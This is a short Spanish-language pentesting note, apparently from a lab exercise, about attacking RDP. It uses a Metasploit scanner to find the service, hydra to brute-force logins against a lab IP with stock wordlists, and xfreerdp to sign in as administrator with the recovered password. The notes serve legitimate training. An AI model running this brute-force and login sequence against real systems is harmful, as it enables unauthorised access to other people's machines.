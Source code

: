 #ActiveDirectory 

Por lo general, el protocolo RDP corre sobre el puerto 3389, pero es posible que corra por otro puerto, por lo que podemos asegurarnos de que un puerto es el RDP con metasploit:
![[Pasted image 20240615211957.png]]

Usaremos el siguiente módulo de metasploit:

```python
use auxiliary_scanner/rdp/rdp_scanner
```

![[Pasted image 20240615212028.png]]

Y ahora con hydra podemos hacer el ataque de fuerza bruta con estos parámetros:

```python
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.28.92 -s 3333
```

Y nos encuentra los siguientes usuarios:
![[Pasted image 20240615212052.png]]

Ahora para conectarnos de forma remota, podemos usar una herramienta llamada xfreerdp:

```python
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.28.92:3333
```

![[Pasted image 20240615212110.png]]

Y ya habremos entrado:
![[Pasted image 20240615212117.png]]
